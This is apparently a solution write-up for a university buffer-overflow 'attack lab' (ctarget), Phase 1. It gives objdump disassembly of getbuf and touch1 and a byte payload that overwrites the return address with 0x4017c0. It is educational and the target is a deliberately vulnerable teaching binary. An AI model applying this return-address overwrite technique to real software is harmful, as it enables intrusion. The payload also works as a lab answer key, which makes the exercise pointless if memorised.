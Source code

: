 # attack_lab_solution

## Preface
To run this lab program, you should use the command `./ctarget -q` instead of `./ctarget` since there's no grading server.

## Phase 1
This phase is so easy and it just helps you to get familiar with this lab. You can choose to use the command objdump or just use gdb to solve this lab.
One way is to use the command objdump and then you get the corresponding source code of getbuf() and touch1() function:
``` asm00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop

00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40

```
It's clear that the address of touch1 should be 0x4017c0. Then you get the unique key to solve this problem. You also find that the command `sub $0x28, %rsp` allocates 40 bytes(0x28 = 40 in decimal). Then you just need to use some random bytes to fill up these 40 bytes and combine it with the address. 
It should be mentioned that you should know whether your system is little-endian or not, it decides the order of your answer. On my little-endian system, the answer could be 
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 
```
